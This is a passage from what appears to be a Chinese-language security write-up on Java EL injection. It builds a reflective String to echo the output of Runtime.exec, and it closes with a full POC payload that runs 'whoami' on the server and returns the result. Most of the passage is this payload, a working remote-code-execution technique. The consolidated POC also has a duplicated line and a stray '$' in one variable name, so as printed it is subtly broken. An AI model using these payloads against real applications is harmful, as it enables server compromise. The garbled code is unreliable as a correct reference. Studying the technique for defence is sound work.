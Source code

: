 # 构建 String 完成 RCE 回显

拿到了合适大小的 `byte[]` 后，接着把 `inputStream` 字节流读到 `heapByteBuffer` 的 `byte[]` 中

```
${pageContext.getAttribute("inputStream").read(heapByteBuffer.array(), 0, inputStreamAvailable)}
```

- 调用 `ByteBuffer#array` 返回其的 `byte[]`
- 调用 `InputStream#read` （`InputStream#read(byte b[], int off, int len)`）读取

但是 `byte[]` 类型的数据不能直接在网上进行回显，需要将其转换成 `String`。常规的方法就是使用 `new String(byte[])` 来实现。

这里有几点需要注意：

1. 由于不能直接用 `new`，依旧需要通过反射来拿到 `String` 实例
2. 反射调用 `String#String` 时，需要指定传参类型的对象。但是似乎没有 `Byte[].TYPE` 这种东西。不过我们可以通过 `byteArrType` 里的 `byte[]`，用 `getClass()` 得到 `byte[]` 类型对象。

如下：

```
//获取byte[]对象
${pageContext.setAttribute("byteArrType", heapByteBuffer.array().getClass())}
//构造一个String
${pageContext.setAttribute("stringClass", Class.forName("java.lang.String"))}
${pageContext.setAttribute("stringConstructor", stringClass.getConstructor(byteArrType))}
${pageContext.setAttribute("stringRes", stringConstructor.newInstance(heapByteBuffer.array()))}
//回显结果
${pageContext.getAttribute("stringRes")}
```

这部分不过多解释了，很容易看得懂

整合一下，POC：

```
${pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("whoami").getInputStream())}

${pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("whoami").getInputStream())}
${Thread.sleep(1000)}
${pageContext.setAttribute("inputStreamAvailable", inputStream.available())}

${pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"))}
${pageContext.setAttribute("allocateMethod", byteBufferClass.getMethod("allocate", Integer.TYPE))}
${pageContext.setAttribute("heapByteBuffer", allocateMethod.invoke(byteBufferClass, inputStreamAvailable))}

${pageContext.setAttribute("inputStream_demo",inputStream.read(heapByteBuffer.array(), 0, inputStreamAvail$able))}

${pageContext.setAttribute("byteArrType", heapByteBuffer.array().getClass())}
${pageContext.setAttribute("stringClass", Class.forName("java.lang.String"))}
${pageContext.setAttribute("stringConstructor", stringClass.getConstructor(byteArrType))}
${pageContext.setAttribute("stringRes", stringConstructor.newInstance(heapByteBuffer.array()))}

${pageContext.getAttribute("stringRes")}
```
